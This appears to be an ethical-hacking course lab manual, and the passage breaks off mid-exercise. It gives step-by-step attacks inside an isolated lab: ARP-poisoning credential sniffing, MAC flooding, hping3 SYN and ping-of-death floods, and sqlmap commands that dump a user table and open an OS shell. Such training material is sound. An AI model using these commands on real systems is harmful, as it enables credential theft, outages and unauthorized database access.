





Lab Scenario
Attackers break into systems for various reasons and purposes. Therefore, it is important to understand how malicious hackers attack and exploit systems and the probable reasons behind those attacks.

Hence, security professionals must guard their infrastructure against various attacks and exploits by using the knowledge of the enemy—the malicious hacker(s)—who seeks to use the infrastructure for illegal activities.

Lab Objectives
The objective of this lab is to provide expert knowledge about the information security attacks on the target system or network. This includes knowledge of the following tasks:

Performing man-in-the-middle (MITM) Attack, MAC flooding, and DoS attacks
Exploiting SQL injection and parameter tampering vulnerabilities
Performing active online attacks
Auditing system passwords
Performing social engineering to sniff user credentials
Cracking WPA2 networks
Hacking an Android device
Exploiting S3 buckets
Overview of Information Security
Information security refers to the protection or safeguarding of information and information systems that use, store, and transmit information from unauthorized access, disclosure, alteration, and destruction. Information is a critical asset that organizations must secure. If sensitive information falls into the wrong hands, then the organization may suffer huge losses in terms of finances, brand reputation, customers, etc. Information security relies on five major elements: confidentiality, integrity, availability, authenticity, and non-repudiation.

Lab Tasks
The recommended labs that assist you in learning information security attacks, include the following:

Perform a Man-in-the-Middle (MITM) Attack using Cain & Abel
Perform MAC Flooding using macof
Perform a DoS Attack on a Target Host using hping3
Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
Perform Parameter Tampering using Burp Suite
Audit System Passwords using John-the-Ripper
Perform Social Engineering using Various Techniques to Sniff Users' Credentials
Crack a WPA2 Network using Aircrack-ng
Hack an Android Device by Creating Binary Payloads
Exploit Open S3 Buckets using AWS CLI
Exercise 1: Perform a Man-in-the-Middle (MITM) Attack using Cain & Abel
A man-in-the-middle (MITM) attack is used to intrude into an existing connection between systems and to intercept messages being transmitted.

Lab Scenario

An attacker can obtain usernames and passwords using various techniques or by capturing data packets. By merely capturing sufficient packets, attackers can extract a target’s username and password if the victim authenticates themselves in public networks, especially on unsecured websites. Once a password is hacked, an attacker can use the password to interfere with the victim’s accounts, for example, by logging into the victim’s email account, logging onto PayPal and emptying the victim’s bank account, or even change the password.

As a preventive measure, an organization’s administrator should instruct employees to not provide sensitive information while in public networks without Hypertext Transfer Protocol Secure (HTTPS) connections. Virtual private network (VPN) and Secure Shell (SSH) tunneling must be used to secure the network connection. An expert cyber security professional must have sound knowledge of sniffing, network protocols and their topology, TCP and UDP services, routing tables, remote access (SSH or VPN), authentication mechanisms, and encryption techniques.

Lab Objectives

This lab demonstrates how to perform Man-in-the-Middle attack using Cain & Abel tool.

Overview of Man-in-the-Middle (MITM) Attack

An MITM attack is used to intrude into an existing connection between systems and to intercept the messages being exchanged. Using various techniques, attackers split the TCP connection into two connections, a client-to-attacker connection and an attacker-to-server connection. After the successful interception of the TCP connection, the attacker can read, modify, and insert fraudulent data into the intercepted communication.

MITM attacks are varied and can be performed on a switched local area network (LAN). MITM attacks can be performed using various tools such as Cain & Abel.

Lab Tasks

1. By default, the Admin Machine-1 machine is selected. Click Ctrl+Alt+Del.

2. By default, the Admin user profile is selected. Type admin@123 to enter the password in the Password field and press Enter to login.

Note: The Networks screen appears. Click Yes to allow the PC to be discoverable by other PCs and devices on the network.

3. Navigate to Z:\CCT-Tools\CCT Module 02 Information Security Attacks\Cain & Abel and double-click ca_setup.exe.

Note: If a User Account Control pop-up appears click Yes.

4. Cain & Abel initializes, and the Cain & Abel Installation window appears. Click the Next button.

5. Follow the wizard-driven installation steps to install Cain & Abel.

6. After completing the installation, the Installation Completed! message appears. Click Finish.

7. The WinPcap Installation pop-up appears. Click Don’t install, as it has already been installed during the lab setup.

8. Now, double-click the Cain shortcut on Desktop to launch Cain & Abel.

Note: If a User Account Control pop-up appears click Yes.

9. The Cain & Abel main window appears, as shown in the screenshot below.

10. First, we need to change the DNS setting, to do so, launch Control Panel and navigate to Network and Internet --> Network and Sharing Centre --> Change adapter settings. Right-click Ethernet adapter and click on Properties from the options.

11. In the Ethernet Properties window, select Internet Protocol Version 4 (TCP/IPv4) and click on Properties. The Internet Protocol Version 4 (TCP/IPv4) Properties window appears, click Advanced… button.

12. In the Advanced TCP/IP Settings window, navigate to the DNS tab, select 8.8.8.8 under DNS server address, in order of use: section and click OK. In the Internet Protocol Version 4 (TCP/IPv4) Properties window, click OK and in the Ethernet Properties window, click Close.

13. Close the Control Panel window.

14. Switch back to the Cain & Abel tool and click Configure from the menu bar to configure an ethernet card.

15. The Configuration Dialog window appears. By default, the Sniffer tab is selected. Ensure that the Adapter associated with the IP address of the machine is selected. Then, click OK.

16. Click the Start/Stop Sniffer icon on the toolbar to begin sniffing.

17. A Cain pop-up appears and displays a Warning message; click OK.

18. Now, click the Sniffer tab.

19. Click the plus (+) icon or right-click in the window and select Scan MAC Addresses to scan the network for hosts.

20. The MAC Address Scanner window appears. Check the All hosts in my subnet radio button and select the All Tests checkbox. Then, click OK.

Note: The MAC Addresses might differ in your lab environment.

21. Cain & Abel starts scanning for MAC addresses and lists all those found.

22. After completing the scan, a list of all active IP addresses along with their corresponding MAC addresses is displayed, as shown in the screenshot below.

Note: The IP addresses displayed might differ when you perform the task.

23. Now, click the APR tab on the bottom of the window.

24. APR options appear in the left-hand pane. Click anywhere on the topmost section in the right-hand pane to activate the plus (+) icon.

25. Click the plus (+) icon. A New ARP Poison Routing window appears, from which we can add IPs to listen to traffic.

26. To monitor the traffic between two systems (here, Web Server and AD Domain Controller), click to select 10.10.1.16 (Web Server) from the left-hand pane and 10.10.1.19 (AD Domain Controller) from the right-hand pane; click OK.

27. Click to select the created target IP address scan displayed in the Configuration / Routes Packets tab.

28. Click on the Start/Stop APR icon to start capturing ARP packets. The Status changes from Idle to Poisoning.

Note: The MAC Addresses might differ in your lab environment.

29. Click Target_AD DOMAIN CONTROLLER to switch to the AD Domain Controller machine. Click Ctrl+Alt+Del. By default, the CCT\Administrator user profile is selected, type admin@123 to enter the password in the Password field and press Enter to login.

Note: The Networks screen appears. Click Yes to allow the PC to be discoverable by other PCs and devices on the network.

30. Click the Type here to search field at the bottom of Desktop, and type cmd. Click Command Prompt from the results.

31. The Command Prompt window appears. Type ftp 10.10.1.16 (the IP address of Web Server) and press Enter.

Note: If you get Connection timed out error, then close the Command Prompt window and perform steps#26-27 again.

32. When prompted for a User, type “Administrator” and press Enter. Type “admin@123” as a Password and press Enter.

Note: The password that you type will not be visible.

Note: Irrespective of a successful login, Cain & Abel captures the password entered during login.

33. Click CCTV1 ADMIN MACHINE-1 to switch back to the Admin Machine-1 machine. Observe that the tool lists packet exchange.

Note: If you are unable to capture packets, then, close all the windows in both the machines Admin Machine-1 and AD Domain Controller machines. Then, perform steps#8-28 again.

34. Click the Passwords tab from the bottom of the window. Click FTP from the left-hand pane to view the sniffed password for ftp 10.10.1.16, as shown in the screenshot below.

Note: In real-time, attackers use the ARP poisoning technique to perform sniffing on the target network. Using this method, attackers can steal sensitive information, prevent network and web access, and perform DoS and MITM attacks.

This concludes the demonstration of performing an MITM attack using Cain & Abel.

Close all open windows and document all the acquired information.

Exercise 2: Perform MAC Flooding using macof
MAC flooding is a technique used to compromise the security of network switches that connect network segments or network devices.

Lab Scenario

Attackers use the MAC flooding technique to force a switch to act as a hub, so they can easily sniff the traffic.

macof is a Unix and Linux tool that is a part of the dsniff collection. It floods the local network with random MAC addresses and IP addresses, this causes some switches to fail and open in repeating mode, thereby facilitating sniffing. This tool floods the switch’s CAM tables (131,000 per minute) by sending forged MAC entries. When the MAC table fills up, the switch converts to a hub-like operation where an attacker can monitor the data being broadcast.

Lab Objectives

This lab demonstrates how to perform MAC Flooding using macof.

Overview of MAC Flooding

In a switched network, an Ethernet switch contains a CAM table that stores all the MAC addresses of the devices connected in the network. A switch acts as an intermediate device between one or more computers in a network. It looks for Ethernet frames, which carry the destination MAC address; then, it tallies this address with the MAC address in its CAM table and forwards the traffic to the destined machine.

Once the MAC address table is full, any further requests may force the switch to enter the fail-open mode in which the switch starts behaving like as a hub and broadcasts incoming traffic through all the ports in the network. The attacker then changes their machine’s NIC to the promiscuous mode to enable the machine to accept all the traffic entering it. Thus, attackers can sniff the traffic easily and steal sensitive information.

Lab Tasks

Note: For demonstration purposes, we are using the same machine. However, you can use multiple machines connected to the same target network. macof sends the packets with random MAC addresses and IP addresses to all active machines in the local network.

1. Click Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine.

2. In the login page, the attacker username will be selected by default. Enter password as toor in the Password field and press Enter to log in to the machine.

Note: If a Parrot Updater pop-up appears at the top-right corner of Desktop, ignore and close it.

Note: If a Question pop-up window appears asking you to update the machine, click No to close the window.

3. Click Applications in the top-left corner of Desktop and navigate to Pentesting --> Information Gathering --> wireshark.

4. A security pop-up appears. Enter toor as a password in the Password field and click OK.

5. The Wireshark Network Analyzer window appears. Double-click the available ethernet or interface (here, eth0) to start packet capture, as shown in the screenshot below.

6. Leave the Wireshark application running.

7. Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.

8. A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

9. In the [sudo] password for attacker field, enter toor as a password and press Enter.

Note: The password that you type will not be visible.

10. Type cd and press Enter to jump to the root directory.

11. In the terminal window, type macof -i eth0 -n 10 and press Enter.

Note: -i: specifies the interface and -n: specifies the number of packets to be sent (here, 10).

Note: A single system can also be targeted by issuing the command macof -i eth0 -d [Target IP Address] (-d: specifies the destination IP address).

12. This command will start flooding the CAM table with random MAC addresses, as shown in the screenshot below.

13. Switch to the Wireshark window and observe the IPv4 packets from random IP addresses, as shown in the screenshot below.

14. Click on any captured IPv4 packet and expand the Ethernet II node in the packet details section. Information regarding the source and destination MAC addresses is displayed, as shown in the screenshot below.

15. Similarly, you can switch to a different machine to view the same packets that were captured by Wireshark in the Attacker Machine-2 machine.

16. macof sends the packets with random MAC and IP addresses to all active machines in the local network. If multiple targets are used, the same packets can be observed on all target machines.

17. Close the Wireshark window. If an Unsaved packets… pop-up appears, click Stop and Quit without Saving to close the Wireshark application.

This concludes the demonstration of MAC flooding using macof.

Close all open windows and document all the acquired information.

Exercise 3: Perform a DoS Attack on a Target Host using hping3
A DoS attack is an attack on a computer or network that reduces, restricts, or prevents access to system resources for legitimate users.

Lab Scenario

In a DoS attack, attackers flood a victim’s system with nonlegitimate service requests or traffic to overload its resources and collapse the system, leading to the unavailability of the victim’s website or at least significantly reducing the victim’s system or network performance. The goal of a DoS attack is to prevent legitimate users from using the system, rather than to gain unauthorized access to a system or to corrupt data.

DoS attacks may result in the over consumption of resources, bandwidth, disk space, CPU time, or data structures; they may also cause the actual physical destruction or alteration of network components or the destruction of programming and files in a computer system.

Lab Objectives

This lab demonstrates how to perform a DoS attack on a target machine using hping3.

Overview of DoS Attack

In general, DoS attacks target network bandwidth or connectivity. Bandwidth attacks overflow the network with a high volume of traffic by using existing network resources, thereby depriving legitimate users of these resources. Connectivity attacks overflow a system with a large number of connection requests, consuming all available OS resources to prevent the system from processing legitimate user requests.

Lab Tasks

Note: If you are already logged into the Admin Machine-1, then skip to Step#3.

Click CCTV1 ADMIN MACHINE-1 to switch to the Admin Machine-1 machine. Click Ctrl+Alt+Del.

By default the Admin account is selected. Type admin@123 and press Enter to login.

Click the Type here to search field at the bottom of Desktop, and type wireshark. Click Wireshark from the results.

The Wireshark Network Analyzer window appears. Double-click on the primary network interface (here, Ethernet) to start capturing the network traffic.

Note: If a Software Update pop-up appears, click on Skip this version.

Wireshark starts capturing the packets; leave it running.

Click Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine.

Click the MATE Terminal icon at the top of the Desktop window to open a Terminal window.

The Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

In the [sudo] password for attacker field, type toor as a password and press Enter.

Note: The password that you type will not be visible.

Type cd and press Enter to jump to the root directory.

In the terminal window, type hping3 -S (Target IP Address) -a (Spoofable IP Address) -p 22 --flood and press Enter.

Note: Here, the target IP address is 10.10.1.2 [Admin Machine-1], and the spoofable IP address is 10.10.1.19 [AD Domain Controller].

Note: -S: sets the SYN flag; -a: spoofs the IP address; -p: specifies the destination port; and --flood: sends a huge number of packets.

This command initiates a SYN flooding attack on the Admin Machine-1 machine. After a few seconds, press Ctrl+C to stop the SYN flooding of the target machine.

Note: If you send the SYN packets for a long period, then the target system may crash.

Observe how, in very little time, a huge number of packets are sent to the target machine.

hping3 floods the victim machine by sending bulk SYN packets and overloading the victim’s resources.

Click CCTV1 ADMIN MACHINE-1 to switch to the Admin Machine-1 machine and observe the TCP-SYN packets captured by Wireshark.

Now, observe the graphical view of the captured packets. By clicking Statistics from the menu bar, and then clicking the I/O Graph option from the drop-down list.

The Wireshark . IO Graphs . Ethernet window appears, displaying a graphical view of the captured packets. Observe the huge number of TCP packets sent by Wireshark, as shown in the screenshot below.

After analyzing the I/O Graph, click Close to close the Wireshark . IO Graphs . Ethernet window.

Close the Wireshark main window. If an Unsaved packets… pop-up appears, click Stop and Quit without Saving.

Now, we shall perform a ping of death (PoD) attack on the target system.

Click on Target_WEB SERVER to switch to the Web Server machine. Click Ctrl+Alt+Del.

By default, the **Administrator** account is selected. Type admin@123 and press Enter to login.

Click the Search Windows field at the bottom of Desktop, and type task. Click Task Manager from the results.

The Task Manager window appears. Click More details and by default Processes tab appears. Navigate to the Performance tab, as shown in the screenshot below.

Now, click Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine. In the Terminal window, type hping3 -d 65538 -S -p 21 --flood (Target IP Address) (here, the target IP address is 10.10.1.16 [Web Server]) and press Enter.

Note: -d: specifies data size; -S: sets the SYN flag; -p: specifies the destination port; and --flood: sends a huge number of packets.

This command initiates a PoD attack on the Web Server machine.

Note: In a PoD attack, the attacker attempts to crash, freeze, or destabilize the targeted system or service by sending malformed or oversized packets using a simple ping command.

Note: For example, the attacker sends a packet with a size of 65,538 bytes to the target web server. This packet size exceeds the size limit prescribed by RFC 791 IP, which is 65,535 bytes. The receiving system’s reassembly process might cause the system to crash.

hping3 floods the victim machine by sending bulk packets, thereby overloading the victim’s resources.

Click Target_WEB SERVER to switch to the Web Server machine

In the Task Manager, observe the Performance tab to view the performance of various system components (CPU, Memory, Ethernet).

Wait for 5 minutes and under the Performance tab, the CPU performance is displayed in the right-hand pane. You can observe that the CPU Utilization has increased enormously indicating a DoS attack on the system.

Observe the degradation in the performance of the system, which might cause the system to crash.

Note: The results might differ in your lab environment.

Click Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine. In the Terminal window, press Ctrl+C to terminate the PoD attack using hping3.

This concludes the demonstration of performing DoS attacks (SYN flooding and PoD attacks) on a target host using hping3.

Close all open windows and document all the acquired information.

Exercise 4: Perform an SQL Injection Attack Against MSSQL to Extract Databases using sqlmap
SQL injection is a technique used to take advantage of unsanitized input vulnerabilities to pass SQL commands through a web application for execution by a backend database.

Lab Scenario

In SQL injection attacks, the attacker injects malicious SQL queries into the user input form either to gain unauthorized access to a database or to retrieve information directly from the database. Such attacks are possible because of a flaw in web applications and not because of any issue with the database or a web server.

A security professional must have the required knowledge to perform an SQL injection attack on the organization's website to check its security infrastructure.

Lab Objectives

This lab demonstrates how to perform an SQL injection attack using sqlmap.

Overview of SQL Injection

SQL injection attacks use a series of malicious SQL queries or SQL statements to manipulate the database directly. Applications often use SQL statements to authenticate users, validate roles and access levels, store and obtain information for the application and user, and link to other data sources. SQL injection attacks work when an application does not properly validate an input before passing it to an SQL statement.

Lab Tasks

Note: In this lab, you will pretend that you are a registered user on <http://www.moviescope.com> website and wish to crack the passwords of other users from the website’s database.

Note: If you are already logged into the Attacker Machine-2, then skip to Step#3.

Click Target_ATTACKER MACHINE-2 to switch to the Attacker Machine-2 machine.

In the login page, the attacker username will be selected by default. Enter password as toor in the Password field and press Enter to log in to the machine.

Note: If a Question pop-up window appears asking you to update the machine, click No to close the window.

Click the Mozilla Firefox icon from the menu bar in the top-left corner of Desktop to launch the web browser.

Type <http://www.moviescope.com/> and press Enter. A Login page loads; enter the Username and Password as sam and test, respectively. Click the Login button.

Note: If a Would you like Firefox to save this login for moviescope.com? notification appears at the top of the browser window, click Don’t Save.

After logging into the website, click the View Profile tab on the menu bar and, when the page has loaded, note the URL in the address bar of the browser.

Right-click anywhere on the webpage and click Inspect Element (Q) from the context menu, as shown in the screenshot below.

The Developer Tools frame appears in the lower section of the browser window. Click the Console tab, type document.cookie in the lower-left corner of the browser, and press Enter.

Select the cookie value, then right-click and copy it, as shown in the screenshot below. Minimize the web browser.

Click the MATE Terminal icon at the top of the Desktop window to open a Parrot Terminal window.

A Parrot Terminal window appears. In the terminal window, type sudo su and press Enter to run the programs as a root user.

In the [sudo] password for attacker field, type toor as a password and press Enter.

Note: The password that you type will not be visible.

Now, type cd and press Enter to jump to the root directory.

In the Parrot Terminal window, type sqlmap -u "<http://www.moviescope.com/viewprofile.aspx?id=1>" --cookie="[cookie value that you copied in Step 8]" --dbs and press Enter.

Note: In this query, -u specifies the target URL (the one noted down in Step 6), --cookie specifies the HTTP cookie header value, and --dbs enumerates DBMS databases.

The above query causes sqlmap to apply various injection techniques on the name parameter of the URL in an attempt to extract the database information of the MovieScope website.

If the message Do you want to skip test payloads specific for other DBMSes? [Y/n] appears, type Y and press Enter.

If the message for the remaining tests, do you want to include all tests for ‘Microsoft SQL Server’ extending provided level (1) and risk (1) values? [Y/n] appears, type Y and press Enter.

Similarly, if any other message appears, type Y and press Enter to continue.

sqlmap retrieves the databases present in the MSSQL server. It also displays information about the web server OS, web application technology, and the backend DBMS, as shown in the screenshot below.

Note: The available databases list might differ when you perform the task.

Now, we will choose a database and use sqlmap to retrieve the tables in the database. In this lab, we will determine the tables associated with the database moviescope.

Type sqlmap -u "<http://www.moviescope.com/viewprofile.aspx?id=1>" --cookie="[cookie value which you have copied in Step 8]" -D moviescope --tables and press Enter.

Note: In this query, -D specifies the DBMS database to enumerate and --tables enumerates DBMS database tables.

The above query causes sqlmap to scan the moviescope database for tables.

sqlmap retrieves and displays the table contents of the moviescope, as shown in screenshot below.

Now, we will retrieve the content of the column User_Login.

Type sqlmap -u "<http://www.moviescope.com/viewprofile.aspx?id=1>" --cookie="[cookie value which you have copied in Step 8]" -D moviescope -T User_Login --dump and press Enter to dump all the User_Login table content.

sqlmap retrieves the complete User_Login table data from the database moviescope, containing all users’ usernames under the Uname column and passwords under the password column, as shown in screenshot below.

Under the password column, the passwords are shown in plain text.

To verify whether the login details are valid, attempt to log in with the extracted login details of any of the users. To do so, switch back to the web browser, close the Developer Tools console, and click Logout to start a new session on the site.

The Login page appears. Log in into the website using the retrieved credentials john/qwerty.

Note: If a Would you like Firefox to save this login for moviescope.com? notification appears at the top of the browser window, click Don’t Save.

You will be successfully logged into the MovieScope website with john account, as shown in the screenshot below.

Now, switch back to the Parrot Terminal window. Type sqlmap -u "<http://www.moviescope.com/viewprofile.aspx?id=1>" --cookie="[cookie value which you have copied in Step 8]" --os-shell and press Enter.

Note: In this query, --os-shell is the prompt for an interactive OS shell.

If the message do you want sqlmap to try to optimize value(s) for DBMS delay responses appears, type Y and press Enter to continue.

Once sqlmap acquires the permission to optimize the machine, it will provide the OS shell. Type hostname and press Enter to find the machine name where the site is running.

If the message do you want to retrieve the command standard output? appears, type Y and press Enter.

sqlmap will retrieve the hostname of the machine on which the target web application is running, as shown in the screenshot below.

Type TASKLIST and press Enter to view the list of tasks currently running on the target system.

Note: If the message do you want to retrieve the command standard output? appears, type Y and press Enter.

The above command retrieves the tasks and displays them under the command standard output section, as shown in the screenshots below.

Following the same process, various other commands can be used to obtain further detailed information about the target machine.

Note: To view the available commands under the OS shell, type help and press Enter.

This concludes the demonstration of launching a SQL injection attack against MSSQL to extract databases using sqlmap.

Close all open windows and document all the acquired information.

Exercise 5: Perform Parameter Tampering using Burp Suite
A web parameter tampering attack involves the manipulation of parameters exchanged between the client and server to modify application data such as user credentials and permissions as well as price, and quantity of products.

Lab Scenario

A security professional must have the required knowledge to perform parameter tampering on an organization's website to check its security infrastructure.

Lab Objectives

This lab demonstrates how to perform a parameter tampering attack using Burp Suite.

Overview of Parameter Tampering

Parameter tampering is a simple type of attack that directly target an application’s business logic. It takes advantage of the fact that many programmer's reliance on hidden or fixed fields (such as a hidden tag in a form or a parameter in a URL) as the only security measure for certain operations. To bypass this security mechanism, an attacker can change these parameters. A parameter tampering attack exploits vulnerabilities in integrity and logic validation mechanisms that may result in XSS, SQL injection, etc.

Lab Tasks

Note: In this task, the target website (<www.moviescope.com>) is hosted by the victim machine, Web Server. Here, the host machine is the Attacker Machine-2 machine.

In the Attacker Machine-2 machine, click the Firefox icon from the top section of Desktop to launch the Mozilla Firefox browser.

The Mozilla Firefox window appears. Type <http://www.moviescope.com> Into the address bar and press Enter.

Set up a Burp Suite proxy by first configuring the proxy settings of the browser.

In the Mozilla Firefox browser, click the Open Application menu icon in the right corner of the menu bar and select Settings from the list.

The Settings tab appears. In the Find in Settings search bar, type proxy, and press Enter.

The Search Results appear. Click the Settings button under the Network Settings option.

